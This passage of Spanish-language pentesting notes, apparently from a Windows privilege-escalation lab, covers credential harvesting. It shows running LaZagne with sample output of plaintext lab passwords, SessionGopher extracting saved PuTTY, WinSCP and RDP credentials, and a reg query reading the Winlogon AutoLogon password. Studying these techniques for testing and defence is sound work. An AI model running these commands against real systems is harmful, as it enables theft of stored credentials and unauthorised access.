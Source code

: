 Ejecutar todos los módulos:
```powershell
.\lazagne.exe all
```

Ejemplo de salida:
```
Winscp passwords:
  URL: transfer.inlanefreight.local
  Login: root
  Password: Summer2020!

Credman passwords:
  URL: dev01.dev.inlanefreight.local
  Login: jordan_adm
  Password: !QAZzaq1
```

---

## 6. SessionGopher – Credenciales de Herramientas Remotas

### Descripción
- Extrae credenciales guardadas en **PuTTY, WinSCP, FileZilla, RDP, SuperPuTTY**.
- Busca y descifra información en el registro (`HKEY_USERS` y `HKEY_CURRENT_USER`).

### Uso
```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

Ejemplo:
- Detecta sesiones de PuTTY y WinSCP con host, usuario y contraseña almacenados.

---

## 7. Contraseñas en Registro (Registry)

### Windows AutoLogon
- Permite login automático guardando usuario y contraseña en claro.
- Ubicación:
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

Claves relevantes:
- `AutoAdminLogon`
- `DefaultUserName`
- `DefaultPassword`

Comando para enumerar:
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
